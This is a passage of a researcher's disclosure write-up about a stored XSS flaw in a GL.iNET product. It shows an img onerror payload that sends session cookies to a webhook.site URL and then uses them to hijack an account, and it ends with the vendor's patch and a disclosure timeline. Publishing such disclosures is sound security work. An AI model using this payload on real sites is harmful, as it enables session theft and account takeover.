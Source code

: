 The stored XSS in the malicious `test` company, `company` and `description` fields (members of the `happy company` Group List) gets trigger when `boschko1` is signed into `boschko` organization `test`.

![](https://boschko.ca/content/images/2022/05/image-98.png)

From our malicious `boschko` user, we will create a group with the following malicious `company` and `description` names.

```
<img src=x onerror=this.src='https://webhook.site/6cb27cce-4dfd-4785-8ee8-70e932b1b8ca?c='+document.cookie>

```

We can leverage [the following website](https://webhook.site/?ref=boschko.ca) since we're too lazy to spin up a digital ocean droplet. With this webhook in hand, we’re ready to steal the cookies of `boschko1`.

![](https://boschko.ca/content/images/2022/05/image-90.png)

Above, `boschko` has stored the malicious javascript within his `company` and `description` fields simply log `boschko1` into the `test` organization owned by `boschko` and receive the cookies via the webhook.

![](https://boschko.ca/content/images/2022/05/image-91.png)

As seen below, we get a bunch of requests made containing the session cookies of `boschko1`.

![](https://boschko.ca/content/images/2022/05/image-107.png)![](https://boschko.ca/content/images/2022/05/image-106.png)

Using the stolen `boschko1` session cookies the account can be hijacked.

![](https://boschko.ca/content/images/2022/09/image-61.png)

The GL.iNET team remediated the issue by July 15 with some pretty solid/standard filtering.

![](https://boschko.ca/content/images/2022/07/image-9.png)

I attempted a handful of bypasses with U+FF1C and U+FF1E, some more funky keyword filtering, substrings, array methods, etc, and had no success bypassing the patch.

### Disclosure Timeline

May 12, 2022: Initial discovery

May 12, 2022: Vendor contacted & vulnerability reported

May 13, 2022: Vendor confirms vulnerability

May 19, 2022: Contact vendor about enterprise user impact

July 7, 2022: Follow up with the vendor

July 15, 2022: Vendor patched the vulnerability

---
